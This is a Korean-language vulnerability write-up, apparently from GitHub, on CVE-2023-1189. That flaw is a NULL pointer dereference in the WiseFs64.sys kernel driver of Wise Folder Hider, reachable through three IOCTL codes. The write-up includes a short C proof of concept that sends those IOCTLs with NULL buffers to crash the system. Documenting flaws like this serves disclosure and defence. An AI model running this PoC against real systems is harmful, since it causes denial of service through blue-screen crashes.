




# CVE-2023-1189

# 1. 개요

| 항목 | 세부 정보 |
| --- | --- |
| CVE ID | CVE-2023-1189 |
| 취약점 유형 | **Improper Resource Shutdown or Release (CWE-404)** |
| 영향 받는 소프트웨어 | WiseCleaner Wise Folder Hider |
| 취약 컴포넌트 | WiseFs64.sys (Kernel Driver) |
| 취약점 버전 | 4.4.3.202 |
| CVSS | NVD - 5.5(Medium), VulDB - 3.3(Low) |
| 공개 일자 | 2023.03.06 |

이 취약점은 공격자가 유저 권한에서 특정 IOCTL을 통해 커널 NULL Pointer Dereference를 유도하여
시스템을 BSOD 상태로 만드는 Local Denial of Service 취약점이다.

# 2. Root Cause

CVE-2023-1189 취약점은 4.4.3.202 버전 Wise Folder Hider 프로그램의 setup에서 생성하는 WiseFs64.sys Kernel 드라이버에서 발생한다.

전체적으로 발생하는 취약점 흐름은 다음과 같다.



해당 흐름을 자세히 살펴보면



가장 먼저 DriverEntry 함수에서 Dispatch Table의 14 인덱스에 `dispatchDeviceControl` 함수를 설정한다.

이를 통해 `\\.\WiseFs`로 들어오는 모든 IOCTL이 `dispatchDeviceControl`로 전달되게 된다.



`dispatchDeviceControl` 함수로 들어오게 되면 가장 먼저 컨트롤 디바이스인지 확인 후, 맞으면 `handleControlDeviceIoctl` 함수로 들어가게 된다.



`handleControlDeviceIoctl` 함수는 실제 IOCTL code들을 처리하는 로직이 들어가 있다.

여러 IOCTL code들 중, `0x222400`과 `0x222404`, `0x222410`에서 Buffer의 값이 NULL인지 아닌지 검증하는 부분이 생략되어 있다.

따라서 Buffer가 NULL인 상태에서 위 IOCTL을 호출하면 드라이버가 Buffer에 접근하면서 NULL Pointer Dereference가 발생하고 BSOD로 이어진다.

# 3. PoC & Exploit

```c
#include <stdio.h>
#include <Windows.h>
#include <winioctl.h>

#define SymLinkName L"\\\\.\\WiseFS"

HANDLE hDevice;

int main(int argc, char* argv[]) {
	DWORD dwWrite = 0;

	hDevice = CreateFileW(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("failed to CreateFile\n");
		return 1;
	}

	// case 0x222400
	// DeviceIoControl(hDevice, 0x222400, NULL, 0, NULL, 0, &dwWrite, NULL);

	// case 0x222404
	// DeviceIoControl(hDevice, 0x222404, NULL, 0, NULL, 0, &dwWrite, NULL);

	// case 0x222410
	// DeviceIoControl(hDevice, 0x222410, NULL, 0, NULL, 0, &dwWrite, NULL);
	
    CloseHandle(hDevice);
    return 0;
}
```

# 4. 참고 문헌

- https://nvd.nist.gov/vuln/detail/CVE-2023-1189
- https://www.cve.org/CVERecord?id=CVE-2023-1189
- https://cwe.mitre.org/data/definitions/404.html
- https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1189